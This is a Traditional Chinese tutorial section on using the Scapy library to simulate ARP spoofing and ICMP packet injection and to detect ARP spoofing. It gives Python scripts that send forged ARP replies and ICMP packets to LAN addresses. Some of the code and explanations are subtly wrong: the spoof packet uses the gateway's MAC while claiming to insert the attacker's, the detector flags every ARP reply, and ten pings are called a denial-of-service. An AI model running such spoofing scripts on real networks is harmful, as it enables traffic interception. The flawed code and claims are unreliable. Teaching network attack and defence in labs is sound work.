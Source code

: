 #### **15.6 使用 Scapy 建構攻擊模擬與防禦工具**

Scapy 是一個強大的 Python 庫，廣泛應用於網路封包的創建、發送和分析。它可以幫助我們模擬各種網路攻擊，並設計防禦工具來對抗這些攻擊。在這一節中，我們將介紹如何使用 Scapy 構建攻擊模擬工具（如 ARP 欺騙模擬）以及防禦工具（如檢測 ARP 欺騙攻擊）。

---

### **15.6.1 使用 Scapy 模擬 ARP 欺騙攻擊**

ARP 欺騙攻擊可以被 Scapy 用來模擬，這使得我們能夠測試防禦機制和監控系統的有效性。

1. **模擬 ARP 欺騙攻擊**

   Scapy 提供了簡單的方法來創建 ARP 回應並發送到網路中。這些回應會偽裝成來自目標 IP 地址的 ARP 回應，將攻擊者的 MAC 地址綁定到目標 IP 地址上。

2. **範例程式碼：**

```python
from scapy.all import ARP, Ether, send

# 設定攻擊者、目標和網關的 IP 和 MAC 地址
target_ip = "192.168.1.10"
gateway_ip = "192.168.1.1"
target_mac = "00:11:22:33:44:55"  # 假設為目標 MAC 地址
gateway_mac = "66:77:88:99:AA:BB"  # 假設為網關 MAC 地址

# 創建 ARP 欺騙封包
def create_arp_reply(target_ip, gateway_ip, target_mac, gateway_mac):
    # ARP 回應，將網關 IP 的 MAC 替換為攻擊者的 MAC
    arp_response = ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst=target_mac, hwsrc=gateway_mac)
    ether_response = Ether(dst=target_mac) / arp_response
    return ether_response

# 發送 ARP 欺騙封包
def send_arp_spoof():
    arp_reply = create_arp_reply(target_ip, gateway_ip, target_mac, gateway_mac)
    print(f"發送 ARP 欺騙封包: {target_ip} -> {gateway_ip}")
    send(arp_reply, count=5)  # 發送 5 個封包

# 執行 ARP 欺騙攻擊
send_arp_spoof()
```

在此程式中，Scapy 創建了一個 ARP 回應封包，其中 `op=2` 表示 ARP 回應。這樣的封包會使目標設備將網關的 IP 地址與攻擊者的 MAC 地址綁定。發送後，目標設備會錯誤地將流量發送到攻擊者。

---

### **15.6.2 使用 Scapy 檢測 ARP 欺騙攻擊**

除了模擬攻擊，Scapy 還可以用來檢測 ARP 欺騙攻擊。當攻擊者偽造 ARP 回應並將其 MAC 地址綁定到目標的 IP 地址時，我們可以監控 ARP 包來檢測是否有不正常的情況發生。

1. **檢測 ARP 欺騙攻擊**

   監控 ARP 封包中的 `psrc` 和 `hwdst` 欄位，可以發現多個設備聲稱是同一個 IP 地址的情況。

2. **範例程式碼：**

```python
from scapy.all import ARP, sniff

# 檢測 ARP 欺騙攻擊
def detect_arp_spoof(packet):
    if packet.haslayer(ARP):
        arp_pkt = packet[ARP]
        # 如果發現 ARP 請求的源 IP 地址與目標 MAC 地址不匹配，則懷疑是 ARP 欺騙
        if arp_pkt.op == 2:  # 只有 ARP 回應才可能是 ARP 欺騙
            print(f"檢測到 ARP 欺騙包: {arp_pkt.psrc} -> {arp_pkt.hwsrc}")

# 開始監控 ARP 包
sniff(filter="arp", prn=detect_arp_spoof, store=0)
```

在此範例中，Scapy 使用 `sniff` 函數來監聽網路上的 ARP 封包，並將每個 ARP 回應與預期的設備地址進行比對。如果發現某個 IP 地址的源 MAC 地址與預期不符，就表示該 IP 地址可能正在遭遇 ARP 欺騙攻擊。

---

### **15.6.3 防禦 ARP 欺騙攻擊**

除了檢測攻擊，Scapy 還能幫助我們構建防禦 ARP 欺騙的機制。以下是一些有效的防禦策略：

1. **靜態 ARP 表**
   - 使用靜態 ARP 表可以防止 ARP 欺騙，因為這樣設備就不會再根據 ARP 請求動態解析 MAC 地址，而是始終使用靜態綁定的 MAC 地址。

2. **ARP 欺騙監控工具**
   - 構建一個自動監控工具，可以檢查 ARP 表中的不一致性，並發出警告。

3. **封包篩選與阻止**
   - 基於防火牆的技術，設置過濾規則來阻止不合法的 ARP 回應。

---

### **15.6.4 使用 Scapy 模擬封包注入攻擊**

封包注入是另一種常見的攻擊形式，其中攻擊者將不合法或篡改的封包注入到網路中。這樣的攻擊常用於拒絕服務（DoS）、流量重放或數據竊取等目的。

1. **模擬封包注入攻擊**

   Scapy 允許我們創建並發送自定義封包，以模擬這類攻擊。

2. **範例程式碼：**

```python
from scapy.all import IP, ICMP, send

# 發送 ICMP Echo 請求來模擬封包注入攻擊
def packet_injection(target_ip):
    icmp_pkt = IP(dst=target_ip) / ICMP()
    send(icmp_pkt, count=10)  # 發送 10 個 ICMP 請求

# 模擬攻擊
target_ip = "192.168.1.10"
packet_injection(target_ip)
```

在這段程式碼中，我們使用 Scapy 創建並發送 ICMP 請求封包，從而模擬一個基本的封包注入攻擊。這些封包會被注入目標網路，造成網路擁塞或服務拒絕。

---

### **15.6.5 整合 Scapy 模擬與防禦工具**

可以將 Scapy 的攻擊模擬與防禦工具結合，創建一個完整的網路攻防測試環境。例如：

1. **攻擊模擬工具：** 模擬 ARP 欺騙、封包注入等攻擊。
2. **防禦監控工具：** 實時監控 ARP 欺騙、封包篩選、ARP 欺騙警告等。

這樣的工具組合能夠幫助我們在實際的網路環境中測試和加強防禦措施。

---

### **總結**

這一節介紹了如何使用 Scapy 來模擬 ARP 欺騙攻擊與封包注入，並設計相應的防禦工具。掌握這些技能能夠幫助你在實際的網路安全工作中，建立有效的攻防對抗系統，提升網路安全防護能力。